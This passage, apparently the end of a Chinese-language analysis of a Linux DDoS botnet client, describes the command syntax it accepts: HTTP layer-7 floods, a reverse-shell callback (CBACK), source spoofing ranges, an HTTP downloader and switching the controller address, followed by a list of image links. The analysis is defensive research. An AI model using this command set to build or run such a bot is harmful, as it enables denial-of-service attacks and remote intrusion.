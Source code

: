 `l7.unknown <target> <port> <time> <threads> </shit.php?id=> <random/not> <(n if random) or not> <GET/HEAD/POST>`

threads最大为64；参数6如果为random，则会生成n（n<=10）位的数字作为id值；请求头中的User-Agent会是89选1，POST数据包为1个字节：

![][18]

## L7.UNKNOWN2

与L7.UNKNOWN相似，threads最大为256，增加了host_header：

` l7.unknown2 <targetip> <host_header> <port> <time> <threads> </shit.php?id=> <random/not> <(n if rand om) or not> <GET/HEAD/POST>`

## DNS

解析某一host：

` DNS <host>`

## CBACK

向指定ip和port回传shell：

` CBACK <ip> <port>`

![][19]

## KILLALL

在执行每个指令时客户端都会fork子进程执行并记录其pid，KILLALL就是kill掉所有记录的子进程：

![][20]

## SPOOFS

接收参数则会设置netlong为对应的subnet address，当没有参数时则会移除netlong。

## GETSPOOFS

获取当前spoof的netlong范围。

## GET

http downloader:

` GET <host> <save as>`

## SERVER

可以更换客户端中主控端的ip地址。


[1]: http://ojyzyrhpd.bkt.clouddn.com/20171219/1.png
[2]: http://ojyzyrhpd.bkt.clouddn.com/20171219/2.png
[3]: http://ojyzyrhpd.bkt.clouddn.com/20171219/3.png
[4]: http://ojyzyrhpd.bkt.clouddn.com/20171219/4.png
[5]: http://ojyzyrhpd.bkt.clouddn.com/20171219/5.png
[6]: http://ojyzyrhpd.bkt.clouddn.com/20171219/6.png
[7]: http://ojyzyrhpd.bkt.clouddn.com/20171219/7.png
[8]: http://ojyzyrhpd.bkt.clouddn.com/20171219/8.png
[9]: http://ojyzyrhpd.bkt.clouddn.com/20171219/9.png
[10]: http://ojyzyrhpd.bkt.clouddn.com/20171219/10.png
[11]: http://ojyzyrhpd.bkt.clouddn.com/20171219/11.png
[12]: http://ojyzyrhpd.bkt.clouddn.com/20171219/12.png
[13]: http://ojyzyrhpd.bkt.clouddn.com/20171219/13.png
[14]: http://ojyzyrhpd.bkt.clouddn.com/20171219/14.png
[15]: http://ojyzyrhpd.bkt.clouddn.com/20171219/15.png
[16]: http://ojyzyrhpd.bkt.clouddn.com/20171219/16.png
[17]: http://ojyzyrhpd.bkt.clouddn.com/20171219/17.png
[18]: http://ojyzyrhpd.bkt.clouddn.com/20171219/18.png
[19]: http://ojyzyrhpd.bkt.clouddn.com/20171219/19.png
[20]: http://ojyzyrhpd.bkt.clouddn.com/20171219/20.png
[21]: http://ojyzyrhpd.bkt.clouddn.com/20171219/21.png
[22]: http://ojyzyrhpd.bkt.clouddn.com/20171219/22.png
[23]: http://ojyzyrhpd.bkt.clouddn.com/20171219/23.png
[24]: http://ojyzyrhpd.bkt.clouddn.com/20171219/24.png
[25]: http://ojyzyrhpd.bkt.clouddn.com/20171219/25.png
[26]: http://ojyzyrhpd.bkt.clouddn.com/20171219/26.png
